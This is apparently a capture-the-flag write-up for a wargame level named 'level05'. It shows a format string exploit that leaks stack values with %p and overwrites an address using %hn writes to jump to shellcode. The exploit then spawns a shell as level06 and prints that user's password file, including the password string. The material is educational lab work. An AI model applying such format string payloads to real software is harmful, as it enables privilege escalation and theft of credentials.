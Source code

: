 # level05

```sh
$> python -c 'print("aaaa " + "%p "*100)' | ./level05
aaaa 0x64 0xf7fcfac0 (nil) (nil) (nil) (nil) 0xffffffff 0xffffd6b4 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

We can count that the string `aaaa` occurs at the 10th position in the stack.


Shellcode's address: 0xffffd868


Because this value is too large for a 32-bit integer, we have to use a trick to write this address in the stack.  
We will decompose it in 2 parts and use `%hn` specifier :
- `0xffff`: 65535
- `0xd868`: 55400

The `%n` specifier will first write 55400 bytes, then we will write the difference with the second part of the address.

```
65535 - 55400 = 10135
```

We can write our payload :
```sh
$> (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55392d" + "%10$hn" + "%10135d%11$hn")'; cat) | ./level05
$ whoami
level06
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
